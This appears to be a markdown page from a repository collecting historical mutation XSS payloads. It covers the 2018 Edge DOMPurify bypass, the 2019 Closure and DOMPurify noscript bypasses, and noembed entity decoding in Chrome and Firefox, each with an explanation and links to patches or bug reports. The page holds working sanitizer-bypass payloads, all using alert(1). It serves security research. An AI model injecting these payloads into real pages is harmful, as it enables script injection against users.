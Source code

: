 
These tweets from 2014 [here](https://x.com/garethheyes/status/526796862100365314) and [here](https://x.com/garethheyes/status/529696573694160897) discuss the IE payloads and their effects.

### Gareth Edge MXSS 2018 and DOMPurify Bypass

**Payload:**  
```html
	<title>&lt/title&gt&ltimg&sol;src=&quot&quotonerror&equals;alert(1)&gt
```
**Description**  
**Edge just decodes entities inside title**  
	  
**Link**  
[**http://www.thespanner.co.uk/2018/07/29/bypassing-dompurify-with-mxss/**](http://www.thespanner.co.uk/2018/07/29/bypassing-dompurify-with-mxss/)



### Masato DOMPurify Closure  Bypass and Google XSS Feb 2019 

**Description:**  
In the browser's DOMParser API, the JavaScript is considered disabled, content inside the \<noscript\> tag is interpreted as RAWTEXT. So, When using DOMParser, everything inside \<noscript\> is treated as raw text. However, once inserted into the page with JavaScript enabled, the contents of the \<noscript\> tag are re-parsed and executed as HTML.

**Google XSS Payload: Closure sanitization bypass**  
```html
<noscript><p title="</noscript><img src=x onerror=alert(1)>">
```
**Link to patch**:   
https://github.com/google/closure-library/commit/c79ab48e8e962fee57e68739c00e16b9934c0ffa

**Dompurify bypass Payload:**  
```js
> DOMPurify.sanitize("a<noscript><p id='</noscript><img src=x onerror=alert(1)>'></p></noscript>", {ADD_TAGS: ['noscript']});
< "a<noscript><p id="</noscript><img src=x onerror=alert(1)>"></p></noscript>
```

### Masato noembed MXSS in FF and Chrome Feb 2019

**Description:**  
	*Chrome decodes HTML entities inside \<noembed\> tags when it is parsed by DOMParser APIs.*   
	*Firefox decodes HTML entities inside \<noscript\> tags when it is parsed by DOMParser APIs.* 
**Payload:**  
```js
	> new DOMParser().parseFromString('A <noembed> B &lt;/noembed&gt; C &lt;img src=x onerror=alert(1)&gt;  D </noembed> E','text/html').body.innerHTML
< "A <noembed> B </noembed> C <img src=x onerror=alert(1)>  D </noembed> E"
A <noscript> B &lt;/noscript&gt; C &lt;img src=x onerror=alert(1)&gt; D </noscript> E
```
**Links:**  
	[https://issues.chromium.org/issues/40090296](https://issues.chromium.org/issues/40090296)  
	https://bugzilla.mozilla.org/show\_bug.cgi?id=1528997

